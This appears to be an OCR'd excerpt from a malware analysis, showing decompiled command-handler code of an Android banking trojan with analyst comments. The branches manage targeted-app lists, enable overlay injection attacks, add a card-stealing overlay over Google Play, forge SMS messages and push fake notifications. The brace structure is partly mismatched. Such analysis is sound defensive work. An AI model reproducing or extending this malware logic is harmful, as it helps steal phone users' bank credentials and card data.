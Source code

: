 ```cs
                                    else if(s6.equals("READ_INJECTS")) { // read the list of targeted apps
                                        globalService0.Tools.readInjects(globalService0);
                                    }
                                    else if(s6.equals("WRITE_INJECTS")) { // add to the list of targeted apps
                                        String s22 = jSONObject2.getString("INJ");
                                        globalService0.Tools.writeInjects(globalService0, s22);
                                    }
                                        else {
                                            boolean z6 = s6.equals("BLOCK_SETTINGS");
                                            if(s6.equals("ENABLE_INJECT")) { // enable ijection to perform overlay attack
                                                globalService0.Tools.enableInjections(globalService0, true);
                                            }
                                            else if(s6.equals("DISABLE_INJECT")) {
                                                globalService0.Tools.enableInjections(globalService0, false);
                                            }
                                            else {
                                                boolean z7 = s6.equals("ENABLE_CC_GRABBER"); // enable overlay attack over google play to get CC
                                                if(z7) {
                                                    globalService0.Tools.addInjectablePackage(globalService0, "com.android.vending", Boolean.valueOf(false));
                                                }
                                                else if(s6.equals("DISABLE_CC_GRABBER")) {
                                                    globalService0.Tools.delInjectablePackage(globalService0, "com.android.vending", Boolean.valueOf(false));
                                                }
                                                else if(s6.equals("ADD_INJECT_PACKAGE")) {
                                                    String s25 = jSONObject2.getString("PKG");
                                                    if(s25.length() > 2) {
                                                        globalService0.Tools.addInjectablePackage(globalService0, s25, Boolean.valueOf(true));
                                                    }
                                                }
                                                else if(s6.equals("INSERT_SMS")) { // write a message to send to as a fake message to lure the user to open the app
                                                    String s28 = jSONObject2.getString("SENDER");
                                                    String s29 = jSONObject2.getString("BODY");
                                                    globalService0.Tools.fakesms(globalService0, s28, s29);
                                                }
                                                    }
                                                    else if(s6.equals("PUSH")) { // to push a fake notification 
                                                        Intent intent0 = new Intent(globalService0, ____ServiceShowNotification.class);
                                                        intent0.putExtra("title", jSONObject2.getString("TITLE"));
                                                        intent0.putExtra("content", jSONObject2.getString("CONTENT"));
                                                        intent0.putExtra("googleIcon", jSONObject2.getString("GOOGLE_ICON"));
                                                        globalService0.startService(intent0);
                                                    }
                                                    else if(s6.equals("PUSH_NOTIFY")) {
                                                        String s33 = jSONObject2.getString("PKG");
                                                        globalService0.Tools.showPushNotify(globalService0, s33);
                                                    }
```